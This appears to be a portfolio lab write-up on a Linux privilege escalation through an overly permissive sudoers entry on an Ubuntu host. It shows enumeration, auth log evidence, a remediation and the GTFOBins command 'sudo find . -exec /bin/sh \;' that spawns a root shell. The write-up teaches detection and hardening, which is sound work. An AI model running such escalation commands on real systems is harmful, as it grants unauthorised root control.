





# Project 8 – Linux Privilege Escalation Analysis (Ubuntu)


---

## Overview

This project investigates a **Linux privilege escalation scenario** on an Ubuntu host (`soc-linux-dc01`). Starting as a low-privileged user, the investigation identifies a misconfigured sudo policy that grants unrestricted root access, confirms the escalation path through auth log analysis, and demonstrates the full exploitation chain — from initial user verification to root shell acquisition.

> **Key Finding:** User `dmitri` was granted `(ALL : ALL) ALL` sudo privileges, enabling full root access via `sudo find . -exec /bin/sh \;`

---

## Environment

| Tool | Purpose |
|------|---------|
| Ubuntu Linux | Target host (`soc-linux-dc01`) |
| Terminal / Bash | Investigation and exploitation environment |
| `/var/log/auth.log` | Sudo activity audit log |
| `sudo`, `find`, `history` | Tools used in escalation chain |
| GitHub | Documentation and version control |

---

## IOC Summary

| Indicator | Value |
|-----------|-------|
| Hostname | `soc-linux-dc01` |
| Compromised User | `dmitri` (uid=1000) |
| Misconfiguration | `(ALL : ALL) ALL` in sudoers |
| Exploit Command | `sudo find . -exec /bin/sh \;` |
| Escalation Target | `root` (uid=0) |
| Auth Log Timestamp | `2026-04-20T23:33:12` |

---

## Investigation Methodology

---

### 🟢 Step 1 — Initial User Identification

**Actions Taken:**
1. Logged into `soc-linux-dc01` as user `dmitri`
2. Ran `whoami` to confirm current identity
3. Established starting privilege context before enumeration

**Output:**
```bash
whoami
dmitri
```


*whoami confirming session running as dmitri — low-privileged user on soc-linux-dc01*

---

### 🔵 Step 2 — Sudo Permission Enumeration

**Actions Taken:**
1. Ran `sudo -l` to enumerate all sudo permissions assigned to `dmitri`
2. Identified critical misconfiguration: `(ALL : ALL) ALL`
3. Confirmed dmitri can run **any command as any user** with no restrictions

**Output:**
```bash
sudo -l
User dmitri may run the following commands on soc-linux-dc01:
    (ALL : ALL) ALL
```

> **Analyst Note:** `(ALL : ALL) ALL` is the most permissive sudoers entry possible. It grants the user unrestricted root-level execution of any command on the system — functionally equivalent to being root.


*sudo -l output — (ALL : ALL) ALL confirmed, dmitri has unrestricted sudo access*

---

### 🟡 Step 3 — Auth Log Analysis & Sudo Activity

**Actions Taken:**
1. Ran `sudo grep -i "sudo" /var/log/auth.log` to pull sudo activity from the system audit log
2. Confirmed sudo session opened for root by dmitri at `2026-04-20T23:33:12`
3. Validated auth log evidence: `USER=root ; COMMAND=/usr/bin/grep`
4. Confirmed PAM session opened: `session opened for user root(uid=0) by dmitri(uid=1000)`

**Auth Log Evidence:**
```
2026-04-20T23:33:12 soc-linux-dc01 sudo: dmitri : TTY=pts/0 ; PWD=/home/dmitri ; USER=root ; COMMAND=/usr/bin/grep -i sudo /var/log/auth.log
2026-04-20T23:33:12 soc-linux-dc01 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by dmitri(uid=1000)
```


*auth.log confirming sudo session opened for root by dmitri — timestamp and command captured*

---

### 🔴 Step 4 — Command History Review & Root Shell Execution

**Actions Taken:**
1. Ran `history` to document the full command sequence executed during the session
2. Confirmed attack chain: `whoami` → `sudo -l` → `sudo grep` (auth log review) → `history`
3. Executed privilege escalation: `sudo find . -exec /bin/sh \;`
4. Ran `whoami` inside the spawned shell — returned `root`
5. Root shell confirmed — escalation complete

**Attack Chain:**
```bash
1  whoami
2  sudo -l
3  sudo grep -i "sudo" /var/log/auth.log
4  history
5  sudo find . -exec /bin/sh \;
# whoami
root
```

**Escalation Confirmed:**
```bash
sudo find . -exec /bin/sh \;
# whoami
root
#
```


*history output showing full attack chain — whoami, sudo -l, auth log grep, history*


*sudo find . -exec /bin/sh \; spawning root shell — whoami returning root, escalation confirmed*

---

## Conclusion

The privilege escalation analysis confirms a **misconfigured sudoers policy** as the root cause:

- User `dmitri` was granted `(ALL : ALL) ALL` sudo privileges — no command restrictions, no user restrictions
- The misconfiguration was discovered through standard enumeration (`sudo -l`) requiring no exploit or CVE
- A root shell was obtained using `sudo find . -exec /bin/sh \;` — a well-known GTFOBins technique
- Auth logs confirmed the escalation event with full timestamp, TTY, working directory, and command

**Verdict: Full privilege escalation achieved. Misconfigured sudoers policy on `soc-linux-dc01` allows any standard user with the `dmitri` account to obtain unrestricted root access.**

**Remediation:** Remove `(ALL : ALL) ALL` from the sudoers file and apply least privilege — grant only the specific commands required for the user's role.

---

## Screenshot Naming Reference

| File Name | Description |
|-----------|-------------|
| `01-initial-user.png` | whoami confirming session as dmitri — initial privilege context |
| `02-sudo-permissions.png` | sudo -l output — (ALL : ALL) ALL misconfiguration identified |
| `03-sudo-activity.png` | auth.log grep — sudo session to root confirmed with timestamp |
| `04-command-history.png` | history output — full attack chain documented |
| `05-root-access.png` | sudo find exploit — root shell spawned, whoami returns root |

---

## Skills Demonstrated

| Skill | How It Was Applied |
|-------|--------------------|
| Linux Privilege Escalation | Identified and exploited misconfigured sudo policy to obtain root |
| Sudo Enumeration | Used sudo -l to enumerate all permissions assigned to the current user |
| Auth Log Analysis | Queried /var/log/auth.log to extract sudo session evidence with timestamps |
| GTFOBins Exploitation | Used sudo find . -exec /bin/sh \; to spawn a privileged shell |
| Command History Forensics | Reviewed history to reconstruct and document the full attack chain |
| Linux Forensics | Extracted IOCs including hostname, user, misconfiguration, and exploit command |
| Threat Documentation | Produced structured IOC summary and investigation notes |

---

## Lessons Learned

**`(ALL : ALL) ALL` is not a sudo policy — it's a master key.** This entry grants the user unrestricted execution of any command as any user on the system. It's the sudoers equivalent of handing someone the root password. In production environments, sudo policies should follow least privilege: grant only the specific commands a user's role requires, nothing more.

**Privilege escalation doesn't always require an exploit.** No CVE, no vulnerability, no zero-day was needed here. A single `sudo -l` revealed the misconfiguration immediately. The most dangerous misconfigurations are often the simplest ones — overly permissive policies quietly sitting in sudoers waiting to be enumerated by any user who looks.

**Auth logs are the audit trail that makes escalation provable.** The `whoami` and `sudo -l` output show intent. The auth log shows proof — exact timestamp, TTY, working directory, user, and command. In a SOC or DFIR context, the log entry is what turns an investigation finding into documented evidence of compromise.

---

## Repository Structure

```text
Project-10-Linux-Privilege-Escalation/
├── Project Screenshots/
│   ├── 01-initial-user.png
│   ├── 02-sudo-permissions.png
│   ├── 03-sudo-activity.png
│   ├── 04-command-history.png
│   └── 05-root-access.png
├── notes.md
├── ioc-summary.md
└── README.md
```

---

## References

- [GTFOBins — find](https://gtfobins.github.io/gtfobins/find/)
- [MITRE ATT&CK — Sudo and Sudo Caching (T1548.003)](https://attack.mitre.org/techniques/T1548/003/)
- [Linux sudoers Manual](https://www.sudo.ws/docs/man/sudoers.man/)
- [NIST SP 800-86 — Guide to Integrating Forensic Techniques into Incident Response](https://csrc.nist.gov/publications/detail/sp/800-86/final)
